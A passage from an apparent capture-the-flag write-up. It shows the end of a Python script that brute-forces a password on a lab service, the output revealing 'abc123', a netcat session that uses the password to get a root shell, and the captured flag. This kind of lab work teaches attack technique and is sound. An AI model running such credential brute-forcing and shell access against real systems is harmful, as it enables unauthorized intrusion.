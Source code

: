 ```
		from_server = client.recv(4096)
		
		if 'Password' not in str(from_server):
			print(f'Password: {password}')
			print(from_server)
			
			client.close()
			break
			
		client.close()
		
print("Done")
```

Running this code, we receive the following:

```
Password: abc123
b'Welcome Admin!!! Type "shell" to begin\n'
Done
```

Now using these credentials, we are able to receive a shell as root.

```
nc 10.10.126.55 8000
admin
Password:
abc123
Welcome Admin!!! Type "shell" to begin
shell
whoami
	root
id
	uid=0(root) gid=0(root) groups=0(root)
```

Now looking at the root directory we receive the second flag:

```
ba5ed03e9e74bb98054438480165e221
```